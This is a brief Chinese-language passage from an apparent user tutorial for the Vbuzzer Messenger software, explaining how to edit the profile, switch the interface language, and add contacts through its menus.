- 1. 重设个人资料。点击界面上方的“文件”菜单，选择“编辑个人信息”就可以修改先前我们注册时所填写的资料，如图 6。

- 2. 更换语言。该软件支持三种语言：中文（默认）、英文和繁体中文，在主界面的“工具”菜单点击选择，如图 7。

- 3. 添加联系人。这里可以选择添加联系人的两种方式：一种是“添加 Vbuzzer Messenger 联系人”，另一种是“添加电话本联系人”，如图 8。


